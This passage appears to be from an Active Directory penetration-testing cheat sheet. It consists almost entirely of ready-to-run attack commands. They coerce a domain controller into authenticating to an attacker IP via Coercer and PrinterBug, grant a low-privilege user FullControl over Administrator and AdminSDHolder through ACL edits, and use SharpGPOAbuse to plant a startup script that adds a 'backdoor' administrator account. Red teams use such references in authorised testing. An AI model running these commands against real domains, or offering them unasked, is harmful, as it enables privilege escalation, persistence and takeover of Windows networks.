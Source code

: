 #### **Coercer (Multiple Methods)**
```bash
# Comprehensive coercion scanning
python3 Coercer.py -t DC_IP -l attacker_ip --scan
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-RPRN
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-EFSRPC
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-DFSNM
```

#### **PrinterBug**
```bash
# SpoolSample
python3 printerbug.py domain.com/lowpriv:password@DC_IP attacker_ip

# Windows
.\SpoolSample.exe DC_IP attacker_ip
```

### **🏛️ Advanced ACL Abuse**

#### **Linux:**
```bash
# dacledit.py (Impacket)
dacledit.py -action read -target Administrator domain.com/lowpriv:password -dc-ip DC_IP
dacledit.py -action write -target Administrator -principal lowpriv -rights FullControl domain.com/lowpriv:password -dc-ip DC_IP

# owneredit.py
owneredit.py -action read -target Administrator domain.com/lowpriv:password -dc-ip DC_IP
owneredit.py -action write -target Administrator -new-owner lowpriv domain.com/lowpriv:password -dc-ip DC_IP
```

#### **Windows:**
```powershell
# PowerView Advanced ACL
Get-ObjectAcl -SamAccountName Administrator -ResolveGUIDs | Where-Object {$_.IdentityReference -eq "DOMAIN\lowpriv"}
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName lowpriv -Rights All

# Set-ADACL
Set-ADACL -SamAccountName Administrator -Right GenericAll -Principal lowpriv
```

### **📋 Advanced GPO Attacks**

#### **GPO Enumeration & Abuse**
```bash
# Linux - impacket
GetGPPPassword.py -xmlfile Groups.xml
findDelegation.py domain.com/lowpriv:password -dc-ip DC_IP

# Windows - PowerView
Get-DomainGPO -ComputerIdentity TARGET_COMPUTER | select displayname,gpcpath
Get-DomainGPOLocalGroup | Where-Object {$_.GroupName -like "*admin*"}
Get-DomainGPOComputerLocalGroupMapping | Where-Object {$_.ComputerName -eq "TARGET"}

# SharpGPOAbuse
.\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "net user backdoor Password123! /add && net localgroup administrators backdoor /add" --GPOName "Default Domain Policy"
```

